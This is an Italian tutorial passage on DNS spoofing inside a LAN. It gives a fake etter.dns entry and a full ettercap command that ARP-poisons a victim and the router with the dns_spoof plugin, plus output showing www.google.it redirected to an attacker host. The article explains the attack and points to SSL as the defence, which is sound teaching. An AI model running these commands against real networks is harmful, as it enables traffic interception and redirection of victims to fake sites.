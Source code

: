 Non sottovalutiamo mai gli attacchi dall'interno: statistiche riportano che oltre l'80% dei crimini informatici proviene dall'interno della rete.

DNS spoofing: siamo certi che il sito Web navigato sia quello richiesto?
Nella prima parte di questo articolo abbiamo visto come sia possibile, nella pratica, sniffare il traffico di rete tra due macchine di una LAN Ethernet, indipendentemente dal sistema operativo da queste utilizzato ed indipendentemente dai dispositivi di rete intermedi. Il rimanente traffico, anche quello generato da un browser (ad esempio) può esser sniffato, ed ogni dato trasmesso in chiaro visualizzato dal cracker (non che i dati cifrati non vengano letti,.. ma almeno non vengono capiti).

Più avanti vedremo appunto come l'SSL rappresenti l'unico metodo realmente valido nel combattere il fenomeno dello sniffing, a patto che venga usato consciamente. Lo sniffing in sé, tuttavia, non è il solo pericolo incombente sull'utilizzo di Internet da rete locale.

Come noto, prima della connessione effettiva, il browser od ogni altro client (il sistema operativo in realtà) risolve il nome simbolico dell'host del sito Web, od altro server, di destinazione attraverso il DNS. Dato il nome simbolico del tipo www.sito-che-voglio-vedere.com, attraverso una rete di server DNS, ne ottiene il rispettivo indirizzo IP al fine di poter fisicamente iniziare una connessione ed uno scambio di dati mediante il solito protocollo TCP/IP.

È possibile che, attraverso un attacco man in the middle, l'host del cracker si sostituisca al server DNS e dia informazioni false, associando nomi simbolici ad indirizzi IP in suo controllo, oppure ancora associ il nome simbolico del sito Web cercato dal client con il proprio IP e funga, di conseguenza, da proxy per tutti i servizi che il client si aspetta di trovare sul server (nel nostro caso appunto il Web).

Il pluigin dns_spoof di Ettercap intercetta le query DNS e risponde con le informazioni desiderate dall'attaccante.

È possibile selezionare le corrispondenze "URI richiesti" - "IP forniti" come fake tramite il file etter.dns:

cat > /usr/share/ettercap/etter.dns
*google* A 192.168.0.50
^D
A questo punto è possibile lanciare l'attacco all'host 192.168.0.40. Nel seguente scenario l'IP 192.168.0.254 è il router dell'organizzazione mentre l'IP 62.94.0.2 è il server DNS esterno.+

ettercap -T -M arp:remote /192.168.0.40/ /192.168.0.254/ -P dns_spoof

ARP poisoning victims:
GROUP 1 : 192.168.0.40  00:40:F4:B1:A5:88
GROUP 2 : 192.168.0.254 00:13:49:A3:09:CE

Starting Unified sniffing...
Activating dns_spoof plugin...

UDP  192.168.0.40:1025 --> 62.94.0.2:53 |
I............www.google.it.....

dns_spoof: [www.google.it] spoofed to [192.168.0.50]

[...]
Il risultato è che il browser del client punta al webserver su 192.168.0.50 in risposta alla chiamata HTTP a www.google.it! Ovviamente con l'aggiunta di sniffing di tutto ciò che viene trasmesso dalle parti.
